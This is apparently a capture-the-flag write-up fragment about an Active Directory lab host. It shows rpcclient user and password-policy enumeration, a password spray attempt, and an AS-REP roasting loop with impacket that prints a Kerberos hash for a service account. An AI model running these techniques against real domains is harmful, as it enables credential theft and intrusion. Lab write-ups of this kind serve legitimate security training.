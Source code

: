 ```bash
        unknown_2[0..31]...
        user_rid :      0x3e8
        group_rid:      0x204
        acb_info :      0x00002100
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000053
        padding1[0..7]...
        logon_hrs[0..21]...
```

# Determine the Windows domain password policy 
```bash
rpcclient $> getdompwinfo
min_password_length: 7
password_properties: 0x00000000
```
# Check password length for specific users:
```bash
rpcclient $> getusrdompwinfo 0x47f
    &info: struct samr_PwInfo
        min_password_length      : 0x0007 (7)
        password_properties      : 0x00000000 (0)
               0: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE
```
# Password spray attack
```bash
$ rpcclient -U "mark%bbb" -c "getusername;quit" 10.10.10.161
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

# Let's use the impacket tool- GetNPUsers.py to try to get a hash for each user.
```bash
┌──(singhx㉿kali)-[~]
└─$ for user in $(cat user.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.

-----snippet-----

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:4a0f2542a93873e580d17f4057c48801$9db1aaae1388211bd0da0cd50fc60bf2e3ceaef18ea1b6fcddb0aec23ae807b9ac95a2609e16ca4678ee526a9aeae747440d04b11e567262f75cc32e7e0bb11078b651f1d818ec41705d462e541851eae3f91fb086acbbf7b5b186572746459cb0af4df85f2ef7767d80d06b3145302b98cc111fd7da468424cf9f272e0e7a0a92e8e529a17f539a288d06a159f175284b7d1f95090f9f6716a6992d7cdd1666ca59e4016d545fa613173f3b74671fcdc936047f915bc803f2647946e6171079d1f3a325e8400e3036ba90814778b34bbbdfd7f4c6f679007992210cdc4552af
```